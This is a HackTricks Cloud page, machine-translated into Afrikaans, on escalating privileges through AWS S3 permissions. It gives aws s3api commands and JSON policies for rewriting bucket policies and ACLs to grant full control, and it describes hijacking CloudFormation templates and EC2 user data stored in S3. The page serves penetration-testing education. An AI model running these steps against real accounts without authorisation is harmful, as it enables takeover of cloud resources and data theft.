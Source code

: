 # AWS - S3 Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

'n Aanvaller met daardie toestemmings oor interessante emmers mag dalk in staat wees om hulpbronne te kap en bevoegdhede te verhoog.

Byvoorbeeld, 'n aanvaller met daardie **toestemmings oor 'n cloudformation emmer** genaamd "cf-templates-nohnwfax6a6i-us-east-1" sal in staat wees om die ontplooiing te kap. Die toegang kan gegee word met die volgende beleid:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
En die kaapting is moontlik omdat daar 'n **klein tydvenster is vanaf die oomblik dat die sjabloon na die emmer opgelaai word** tot die oomblik dat die **sjabloon ontplooi word**. 'n Aanvaller kan eenvoudig 'n **lambda-funksie** in sy rekening skep wat **geaktiveer word wanneer 'n emmer kennisgewing gestuur word**, en **kaap** die **inhoud** van daardie **emmer**.

![](<../../../.gitbook/assets/image (174).png>)

Die Pacu-module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) kan gebruik word om hierdie aanval te outomatiseer.\
Vir meer inligting, kyk na die oorspronklike navorsing: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Dit is die toestemmings om **objekte na S3 te kry en op te laai**. Verskeie dienste binne AWS (en buite dit) gebruik S3-stoor om **konfigurasie lêers** te stoor.\
'n Aanvaller met **lees toegang** tot hulle kan **sensitiewe inligting** daarop vind.\
'n Aanvaller met **skryf toegang** tot hulle kan **die data verander om 'n diens te misbruik en probeer om voorregte te verhoog**.\
Hier is 'n paar voorbeelde:

* As 'n EC2-instantie die **gebruikersdata in 'n S3-emmer** stoor, kan 'n aanvaller dit verander om **arbitraire kode binne die EC2-instantie uit te voer**.

### `s3:PutBucketPolicy`

'n Aanvaller, wat moet wees **van dieselfde rekening**, anders sal die fout `Die gespesifiseerde metode is nie toegelaat nie` geaktiveer word, met hierdie toestemming sal in staat wees om vir homself meer toestemmings oor die emmer(s) toe te ken wat hom toelaat om emmers te lees, te skryf, te verander, te verwyder en bloot te stel.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

'n Aanvaller kan hierdie toestemmings misbruik om **hom meer toegang te gee** oor spesifieke emmers.\
Let daarop dat die aanvaller nie van dieselfde rekening hoef te wees nie. Boonop is die skryftoegang
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

'n Aanvaller kan hierdie toestemmings misbruik om hom meer toegang tot spesifieke voorwerpe binne emmers te verleen.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

'n Aanvaller met hierdie voorregte word verwag om 'n Acl op 'n spesifieke objekweergawe te kan plaas
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
